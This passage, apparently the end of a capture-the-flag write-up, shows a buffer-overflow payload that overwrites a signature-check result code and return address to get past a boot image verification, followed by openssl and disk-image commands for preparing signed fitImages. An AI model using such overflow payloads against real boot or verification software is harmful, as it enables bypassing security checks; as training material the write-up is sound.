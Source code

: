This means, our result code is taken from a register we overflowed. And so, we can edit it!

This gives us the final payload:

312 bytes of padding, then result code, then 8 bytes padding and then the return address
`PAYLOAD = cyclic(312)+p64(0)+p64(0)+p64(0x92751604)`


![boot](imgs/boot.png)


![flag](imgs/flag.png)


## Other useful commands


**Key generation:**

```
# Gen keys
openssl genpkey -algorithm RSA -out private.pem -pkeyopt rsa_keygen_bits:1024
# Sign image
openssl dgst -sha256 -sign private.pem -out signature.bin fitImage
# Convert to BreizhCertificate
python3 convert-pem-to-breizhcertificate.py private.pem pubkey.breizhcertificate <String Key identifier>
```


**Disk creation:**

```
dd if=/dev/zero of=fitImage-disk.img bs=1M count=10
mkdir -p fs
mkfs.vfat fitImage-disk.img
sudo mount -o loop fitImage-disk.img fs/

sudo cp fitImage fs/
sudo cp signature.bin fs/
sudo cp pubkey.breizhcertificate fs/

sudo umount fs/
```

**-> result**
 
```
.rwxr-xr-x  8,5M root  5 mars  22:20  fitImage
.rwxr-xr-x   290 root  5 mars  22:31  pubkey.breizhcertificate
.rwxr-xr-x   128 root  5 mars  22:31  signature.bin
```